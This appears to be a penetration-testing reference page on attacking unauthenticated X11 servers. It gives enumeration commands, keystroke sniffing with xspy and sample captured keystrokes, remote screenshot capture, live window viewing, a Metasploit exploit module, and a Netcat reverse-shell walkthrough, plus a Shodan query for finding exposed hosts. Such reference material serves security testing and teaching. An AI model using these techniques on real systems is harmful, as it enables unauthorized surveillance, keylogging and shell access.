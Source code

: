 # 6000 - Pentesting X11

## Basic Information

The X Window System \(aka X\) is a windowing system for bitmap displays, which is common on UNIX-based operating systems. X provides the basic framework for a GUI based environment. X also does not mandate the user interface – individual programs handle this.  
From: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

**Default port:** 6000

```text
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```text
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```text
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```text
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```text
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

**./xrdp.py &lt;IP:0&gt; –no-disp**

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX15.jpg)

It will prompt a new control pane where we can see the R-shell option, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX16.jpg)

We will start the Netcat listening mode in our local system on port 5555, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX17.jpg)

Then add the IP and port and then select R-Shell, which is illustrated below:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX18.jpg)

Now as can be seen below we have complete system access:

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/112217_0051_ExploitingX19.jpg)

{% embed url="https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/\#gref" caption="" %}

## Shodan

* `port:6000 x11`

